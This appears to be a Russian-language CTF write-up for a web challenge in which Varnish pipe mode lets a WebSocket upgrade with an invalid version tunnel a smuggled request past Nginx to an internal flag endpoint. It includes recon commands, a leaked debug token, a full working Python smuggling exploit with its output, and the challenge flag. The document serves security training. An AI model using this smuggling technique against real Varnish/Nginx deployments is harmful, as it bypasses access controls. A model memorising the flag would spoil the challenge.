



# The Phantom Chat — Writeup

**Категория:** Web  
**Сложность:** Hard  
**Флаг:** `KubSTU{v4rn1sh_p1p3_m0d3_w3bs0ck3t_smuggl1ng}`

---

## 1. Обзор приложения

При открытии `http://CHALLENGE_HOST:35802` мы видим лендинг корпоративного мессенджера "Phantom Messenger":



Сайт выглядит как полноценный продукт — есть регистрация, авторизация, чат с каналами, страницы Pricing, Docs, About и т.д.

---

## 2. Регистрация и вход

Регистрируемся и заходим в мессенджер:





После входа попадаем в чат с каналами #general, #engineering, #devops и т.д. Обычный корпоративный мессенджер без каких-либо явных подсказок.

---

## 3. Разведка (Recon)

### 3.1. HTTP-заголовки

Начинаем с анализа заголовков ответа:

```bash
$ curl -sI http://localhost:35802/
```

```
Server: nginx/1.25.5
Via: 1.1 fd54f2d70807 (Varnish/7.4)
X-Varnish: 29
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
```

**Ключевые находки:**
- `Via: 1.1 ... (Varnish/7.4)` — на фронте стоит Varnish
- `Server: nginx/1.25.5` — за Varnish стоит Nginx

Это многослойная архитектура: **Varnish → Nginx → Backend**

### 3.2. Поиск эндпоинтов

Перебором или через `/api/info` находим:

```bash
$ curl -s http://localhost:35802/api/info | python -m json.tool
```

```json
{
    "service": "phantom-messenger",
    "version": "2.1.0",
    "endpoints": {
        "channels": "/api/channels",
        "health": "/api/health",
        "info": "/api/info",
        "status": "/api/status"
    }
}
```

### 3.3. Обнаружение WebSocket-эндпоинта

Через dirsearch/ffuf или анализ JS в чате находим `/ws`:

```bash
$ curl -sI http://localhost:35802/ws \
  -H "Upgrade: websocket" \
  -H "Connection: Upgrade" \
  -H "Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==" \
  -H "Sec-WebSocket-Version: 7"
```

```
HTTP/1.1 426 Upgrade Required
Server: Go-H2C
Sec-Websocket-Version: 13
X-Debug-Auth: UGhhbnRvbUJ5cGFzczIwMjY=
Content-Type: application/json
```

**Критические находки:**
1. `Server: Go-H2C` — бэкенд написан на Go (не nginx!)
2. **`X-Debug-Auth: UGhhbnRvbUJ5cGFzczIwMjY=`** — утечка debug-заголовка!
3. Ответ `426` вместо `101` — версия WebSocket отклонена
4. Заголовок `Via` **отсутствует** — запрос пошёл **напрямую** на бэкенд, минуя Nginx!

### 3.4. Декодирование токена

```bash
$ echo "UGhhbnRvbUJ5cGFzczIwMjY=" | base64 -d
PhantomBypass2026
```

Получили токен: `PhantomBypass2026`

---

## 4. Понимание уязвимости

### Архитектура:
```
Client → Varnish:6081 → Nginx:80 → Backend:5000
              ↓ (if Upgrade + /ws)
              └──── pipe ────→ Backend:5000 (напрямую, минуя Nginx!)
```

### Ключевые наблюдения:

1. При запросе к `/ws` с заголовком `Upgrade: websocket` — Varnish переходит в **pipe mode** (сырой TCP-тоннель напрямую к бэкенду)
2. Бэкенд отвечает `426` (а не `101`), но **Varnish уже в pipe mode** и не проверяет ответ
3. TCP-соединение остаётся открытым — можно отправить **второй HTTP-запрос** по тому же соединению
4. Этот запрос пойдёт напрямую на бэкенд, **минуя Nginx** и его ACL

### Что блокирует Nginx:
- `deny all` на `/internal/*`
- Удаление заголовка `X-Internal-Token`

### Что мы обходим:
Через smuggling запрос идёт **напрямую** к бэкенду — Nginx его не видит вообще!

---

## 5. Эксплуатация

### 5.1. WebSocket Smuggling (Python)

```python
import socket
import base64

host = "CHALLENGE_HOST"
port = 35802

# Шаг 1: WebSocket upgrade с невалидной версией
upgrade = (
    f"GET /ws HTTP/1.1\r\n"
    f"Host: {host}\r\n"
    f"Upgrade: websocket\r\n"
    f"Connection: Upgrade\r\n"
    f"Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==\r\n"
    f"Sec-WebSocket-Version: 7\r\n"
    f"\r\n"
)

# Шаг 2: Smuggled запрос к internal endpoint
smuggled = (
    f"GET /internal/admin/flag HTTP/1.1\r\n"
    f"Host: localhost\r\n"
    f"X-Internal-Token: PhantomBypass2026\r\n"
    f"Connection: close\r\n"
    f"\r\n"
)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(10)
sock.connect((host, port))

# Отправляем upgrade → Varnish входит в pipe mode
sock.sendall(upgrade.encode())

# Читаем 426 ответ (Varnish его пропускает, тоннель открыт)
response = b""
while b"\r\n\r\n" in response is False or len(response) < 10:
    chunk = sock.recv(4096)
    if not chunk: break
    response += chunk
    if b"\r\n\r\n" in response: break

print(response.decode())

# Отправляем smuggled запрос — идёт напрямую к бэкенду!
sock.sendall(smuggled.encode())

# Получаем флаг
flag_response = b""
while True:
    try:
        chunk = sock.recv(4096)
        if not chunk: break
        flag_response += chunk
    except: break

print(flag_response.decode())
sock.close()
```

### 5.2. Вывод эксплойта

```
============================================================
  The Phantom Upgrade - WebSocket Smuggling Exploit
============================================================

[*] Connecting to localhost:35802
[*] Sending WebSocket Upgrade with invalid version (Sec-WebSocket-Version: 7)
[*] Reading 426 response from backend (Varnish stays in pipe mode)...
[*] Got response: HTTP/1.1 426 Upgrade Required
[+] Found token hint in X-Debug-Auth: PhantomBypass2026
[*] Tunnel is open! Sending smuggled request to /internal/admin/flag
[*] Reading flag response...

[+] Smuggled response:
HTTP/1.1 200 OK
Content-Type: application/json
Server: Go-H2C

{"flag":"KubSTU{v4rn1sh_p1p3_m0d3_w3bs0ck3t_smuggl1ng}",
 "message":"Congratulations! You've mastered WebSocket smuggling through the Phantom Upgrade."}

[!!!] FLAG: KubSTU{v4rn1sh_p1p3_m0d3_w3bs0ck3t_smuggl1ng}
```

---

## 6. Краткая цепочка атаки

```
1. Recon → обнаруживаем Varnish + Nginx по заголовкам
2. Находим /ws endpoint (dirsearch / JS analysis)
3. WebSocket handshake с Version:7 → 426 + X-Debug-Auth утечка
4. base64 decode → PhantomBypass2026
5. Понимаем: Varnish pipe mode → прямой тоннель к бэкенду
6. Smuggling: второй HTTP-запрос через открытый тоннель
7. GET /internal/admin/flag + X-Internal-Token → FLAG!
```

---

## 7. Флаг

```
KubSTU{v4rn1sh_p1p3_m0d3_w3bs0ck3t_smuggl1ng}
```

---

## Источники

- [WebSocket Smuggling](https://www.intruder.io/research/practical-http-header-smuggling)
- [Varnish pipe mode documentation](https://varnish-cache.org/docs/trunk/users-guide/vcl-built-in-subs.html)
- [RFC 6455 — The WebSocket Protocol](https://tools.ietf.org/html/rfc6455)
